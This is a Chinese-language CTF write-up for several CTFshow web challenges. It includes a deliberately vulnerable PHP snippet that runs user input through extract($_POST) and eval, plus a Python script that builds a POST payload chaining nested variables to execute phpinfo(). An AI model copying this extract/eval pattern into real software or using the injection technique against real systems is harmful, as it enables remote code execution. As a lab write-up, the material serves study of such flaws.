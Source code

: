 我们要将中文字符进行url解码

```
CTFshow-QQ%E7%BE%A4:=a
```







## web2 c0me_t0_s1gn  

F12

![图片-1680664313075](https://cdn.jsdelivr.net/gh/R3damancy1/blog-pic/202404151445898.png)

提示说去控制台

```
try to run the function "g1ve_flag()" to get the flag!
```

![图片-1680664326857](https://cdn.jsdelivr.net/gh/R3damancy1/blog-pic/202404151445782.png)







## 我的眼里只有$

```php
<?php

error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```

变量嵌套问题，先给$_赋值：$__=a,然后给a赋值，以此类推一共有36个$，所有我们要赋值36次，写个脚本来跑一下

```python
import string
s = string.ascii_letters 
t='_=a&'
code="phpinfo();"
for i in range(35):
    t+=s[i]+"="+s[i+1]+'&'

t+=s[i]+'='+code
print(t)

```

payload
